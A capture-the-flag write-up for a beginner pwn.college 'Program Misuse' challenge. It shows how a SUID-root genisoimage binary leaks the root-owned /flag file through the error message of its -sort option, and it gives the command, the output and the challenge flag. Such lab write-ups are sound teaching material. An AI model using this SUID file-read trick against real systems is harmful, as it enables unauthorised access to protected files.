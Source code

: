 # Challenge Name: genisoimage
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/genisoimage`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/genisoimage
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/genisoimage
```

-The `s` in `-rws` indicates it's a SUID binary.
-`genisoimage` runs with **root privileges**.

## 🚀 Exploitation

The `genisoimage` is a command-line tool used to create ISO 9660 file system images (typically .iso) from files or directories.

But how can we reveal the flag by genisoimage , if it's only used for creating iso's? 
- the -sort command in genisoimage is used to sort the iso content made by weigths included in file given to -sort option of genisoimage.

We can parse /flag in -sort though it doesnt contain weight , the error can reveal the flag.

```bash
genisoimage -sort /flag
```

Output:
```
genisoimage: Incorrect sort file format
        pwn.college{ktPXbX6OZbHuRpPQ71lbIVqvy4Z.dVjNxwSM0IzMyEzW}
```

here the error simply reveals the flag.

      

